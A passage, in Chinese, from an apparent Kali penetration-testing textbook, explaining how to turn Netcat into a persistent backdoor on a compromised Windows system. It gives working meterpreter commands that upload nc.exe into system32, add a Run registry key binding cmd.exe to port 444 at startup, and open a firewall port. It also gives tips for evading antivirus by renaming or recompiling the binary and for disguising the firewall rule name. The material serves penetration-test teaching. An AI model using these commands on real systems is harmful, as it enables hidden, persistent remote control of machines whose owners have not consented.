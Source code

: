 +   端口扫描

+   横幅抓取以识别服务

+   端口重定向和代理

+   文件传输和聊天，包括对数据取证和远程备份的支持

+   用作后门或交互式持久代理，在受损系统上

此时，我们将专注于使用 Netcat 在受损系统上创建持久 shell。尽管以下示例使用 Windows 作为目标平台，但在基于 Unix 的平台上使用时功能相同。

在下面的截图中显示的示例中，我们将保留可执行文件的名称—`nc.exe`；但是，通常在使用之前将其重命名以最小化检测。即使它被重命名，通常也会被杀毒软件识别；许多攻击者会修改或删除 Netcat 源代码中不需要的部分，并在使用之前重新编译它；这些更改可以改变杀毒软件用于识别应用程序为 Netcat 的特定签名，使其对杀毒软件不可见。

Netcat 存储在 Kali 的`/usr/share/windows-binaries`存储库中。要将其上传到受损系统，请在`meterpreter`中输入以下命令：

```
meterpreter> upload/usr/share/windows-binaries/nc.exe
C:\\WINDOWS\\system32 

```

前一个命令的执行结果显示在以下截图中：

![将 Netcat 作为持久代理](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_06_05.jpg)

您不必将其专门放在`system32`文件夹中；但是，由于此文件夹中的文件类型数量和多样性，这是在受损系统中隐藏文件的最佳位置。

### 提示

在对一个客户进行渗透测试时，我们在一个服务器上发现了六个独立的 Netcat 实例。Netcat 被两个不同的系统管理员安装了两次，以支持网络管理；其他四个实例是由外部攻击者安装的，在渗透测试之前没有被发现。因此，始终查看目标系统上是否已安装了 Netcat！

如果您没有`meterpreter`连接，可以使用**Trivial File Transfer Protocol**（**TFTP**）来传输文件。

接下来，配置注册表以在系统启动时启动 Netcat，并确保它在 444 端口上监听（或者您选择的任何其他端口，只要它没有被使用），使用以下命令：

```
meterpreter>reg setval -k
  HKLM\\software\\microsoft\\windows\\currentversion\\run -vv nc
  -d 'C:\\windows\\system32\\nc.exe -Ldp 444 -e cmd.exe' 

```

使用以下`queryval`命令确认注册表中的更改已成功实施：

```
meterpreter>reg queryval -k
  HKLM\\software\\microsoft\\windows\\currentverion\\run -vv nc 

```

使用`netsh`命令，在本地防火墙上打开一个端口，以确保受损系统将接受对 Netcat 的远程连接。了解目标操作系统是很重要的。`netsh advfirewall firewall`命令行上下文用于 Windows Vista 和 Windows Server 2008 及更高版本；`netsh firewall`命令用于早期操作系统。

要向本地 Windows 防火墙添加端口，请在`meterpreter`提示符处输入`shell`命令，然后使用适当的命令输入`rule`。在命名`rule`时，使用一个像`svchostpassthrough`这样的名称，表明`rule`对系统的正常运行很重要。示例命令如下所示：

```
C:\Windows\system32>netsh firewall add portopening TCP 444
  "service passthrough" 

```
